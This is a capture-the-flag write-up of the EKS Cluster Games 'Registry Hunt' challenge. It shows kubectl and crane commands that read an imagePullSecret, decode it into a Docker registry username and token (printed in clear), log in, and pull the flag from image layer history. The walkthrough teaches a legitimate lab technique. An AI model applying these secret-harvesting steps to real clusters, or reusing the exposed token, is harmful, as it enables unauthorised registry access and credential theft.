 ```yaml
---
title: "EKS Cluster Games: Challenge 2"
date: 2023-11-09T11:28:47+02:00
draft: true
toc: true
series:
  - EKS-cluster-games
---
```


This is my writeup of how I solved the second challenge of the [EKS Cluster Games](https://eksclustergames.com/).

## Challenge 2 - Registry Hunt

The challenge hints that we should check the container registries. They also link to a rather long post (18 minute read) on [Hells KeyChain](https://www.wiz.io/blog/hells-keychain-supply-chain-attack-in-ibm-cloud-databases-for-postgresql). It seemed long, so I skipped it initially.

> A thing we learned during our research: always check the container registries.

### Recon: Pods and secrets

We are told we have the following permissions

```json
{
  "secrets": ["get"],
  "pods": ["list", "get"]
}
```

So, we can't list secrets, but let's see which pods are running

```shell
$ kubectl get pods
NAME                    READY   STATUS    RESTARTS   AGE
database-pod-2c9b3a4e   1/1     Running   0          30h
```
Just a single pod. Does it have anything interesting?

```javascript
$ k get pod database-pod-2c9b3a4e -o json
{
    "apiVersion": "v1",
    "kind": "Pod",
    "metadata": {
        "annotations": {
            "kubernetes.io/psp": "eks.privileged",
            [...]
        },
        [...]
    },
    "spec": {
        "containers": [
            {
                "image": "eksclustergames/base_ext_image",
                "imagePullPolicy": "Always",
                [...]
                "volumeMounts": [
                    {
                        "mountPath": "/var/run/secrets/kubernetes.io/serviceaccount",
                        "name": "kube-api-access-cq4m2",
                        "readOnly": true
                    }
                ]
            }
        ],
        [...]
        "imagePullSecrets": [
            {
                "name": "registry-pull-secrets-780bab1d"
            }
        ],
        [...]
        "volumes": [
            {
                "name": "kube-api-access-cq4m2",
                [...]
            }
        ]
    },
    "status": {
        [...]
        "containerStatuses": [
            {
                "containerID": "containerd://b427307b7f428bcf6a50bb40ebef194ba358f77dbdb3e7025f46be02b922f5af",
                "image": "docker.io/eksclustergames/base_ext_image:latest",
                "imageID": "docker.io/eksclustergames/base_ext_image@sha256:a17a9428af1cc25f2158dfba0fe3662cad25b7627b09bf24a915a70831d82623",
                [...]
            }
        ],
        [...]
    }
}
```

I noted a couple of things

- Is it running `eks.privileged`
- It always pulls the image
- It has an `imagePullSecret` named `registry-pull-secrets-780bab1d`
- It has a volume mounted called `kube-api-access-cq4m2`

### Looking into the secrets

Can we get the `kube-api-access-cq4m2` secret? No, it seems not

```
$ k get secret kube-api-access-cq4m2
Error from server (NotFound): secrets "kube-api-access-cq4m2" not found
```

What about the `imagePullSecret`?

```sh
$ k get secret registry-pull-secrets-780bab1d -o json
{
    "apiVersion": "v1",
    "data": {
        ".dockerconfigjson": "eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19"
    },
    "kind": "Secret",
    "metadata": {
        "annotations": {
            "pulumi.com/autonamed": "true"
        },
        "creationTimestamp": "2023-11-01T13:31:29Z",
        "name": "registry-pull-secrets-780bab1d",
        "namespace": "challenge2",
        "resourceVersion": "897340",
        "uid": "1348531e-57ff-42df-b074-d9ecd566e18b"
    },
    "type": "kubernetes.io/dockerconfigjson"
}
```

Success, it had a `.dockerconfigjson`! This seemed to be credentials for the registry at `index.docker.io/v1/`

```sh
$ echo "eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19" | base64 -d
{"auths": {"index.docker.io/v1/": {"auth": "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw=="}}}
$ echo ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw== | base64 -d
eksclustergames:dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo%
```
This might be 1 of the secrets which the Hells KeyChain refers to: the private container registry password.

### Getting stuck

What next? After hitting a dead end with the `kube-api-access-cq4m2` I started reading the post on Hells KeyChain.
I found they've found an `imagePullSecret` in the same manner as I.

They also taled about secrets being leaked in Docker layers. Let us look into that.

### Peeling off the layers

The challenge page mentioned a utility called `crane` was installed. So I started toying with it.

I found I could log in to the container registry using `crane auth login docker.io -u eksclustergames -p thepasswordfromabove`, and I was able to interact with the registry

```sh
$ crane ls eksclustergames/base_ext_image
latest
```

I tried listing other images, but there were none. I then searched for a way to get info on the layers, and found that `crane config` would provide me the history of an image

```sh
crane config eksclustergames/base_ext_image
{
    "architecture": "amd64",
    "config": {
        "Env": [
            "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
        ],
        "Cmd": [
            "/bin/sleep",
            "3133337"
        ],
        "ArgsEscaped": true,
        "OnBuild": null
    },
    "created": "2023-11-01T13:32:18.920734382Z",
    "history": [
        {
            "created": "2023-07-18T23:19:33.538571854Z",
            "created_by": "/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "
        },
        {
            "created": "2023-07-18T23:19:33.655005962Z",
            "created_by": "/bin/sh -c #(nop)  CMD [\"sh\"]",
            "empty_layer": true
        },
        {
            "created": "2023-11-01T13:32:18.920734382Z",
            "created_by": "RUN sh -c echo 'wiz_eks_challenge{REDACTED}' > /flag.txt # buildkit",
            "comment": "buildkit.dockerfile.v0"
        },
        {
            "created": "2023-11-01T13:32:18.920734382Z",
            "created_by": "CMD [\"/bin/sleep\" \"3133337\"]",
            "comment": "buildkit.dockerfile.v0",
            "empty_layer": true
        }
    ],
    "os": "linux",
    "rootfs": {
        "type": "layers",
        "diff_ids": [
            "sha256:3d24ee258efc3bfe4066a1a9fb83febf6dc0b1548dfe896161533668281c9f4f",
            "sha256:a70cef1cb742e242b33cc21f949af6dc7e59b6ea3ce595c61c179c3be0e5d432"
        ]
    }
}
```

and there is was, the command that created the layer containing the flag: `wiz_eks_challenge{REDACTED}` :rocket:


### Could it have been simpler?

Would we have been able to do this without the imagePullSecret? No, it seems not

```sh
$ crane auth logout docker.io
2023/11/02 21:05:35 logged out via /home/user/.docker/config.json
$ crane config eksclustergames/base_ext_image
Error: fetching config: reading image "eksclustergames/base_ext_image": GET https://index.docker.io/v2/eksclustergames/base_ext_image/manifests/latest: UNAUTHORIZED: authentication required; [map[Action:pull Class: Name:eksclustergames/base_ext_image Type:repository]]
```

